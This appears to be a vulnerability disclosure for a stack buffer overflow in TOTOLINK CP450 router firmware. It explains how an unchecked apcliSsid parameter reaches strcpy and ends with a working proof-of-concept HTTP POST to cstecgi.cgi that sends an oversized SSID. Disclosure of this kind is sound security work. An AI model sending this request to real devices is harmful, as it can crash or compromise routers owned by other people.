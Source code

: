 ## CP450 stack buffer overflow

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In the function `addWlProfileClientMode`, attackers can post the parameter `apcliSsid` to `Var` without checking its' length. 

![image-20240421163827190](./img/1.png)

Then in line 39, the call to function `strcpy` will lead to stack overflow.

The function trace back is `addWlProfileClientMode<-setWiFiRepeaterConfig`, we can call the `setWiFiRepeaterConfig` by post a request and set the `operationMode=5` to trigger this vulnerability.

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 586
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/adm/opmode.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setWiFiRepeaterConfig",
    "apcliSsid": "a"*0x200,
    "operationMode": "5"
}
```
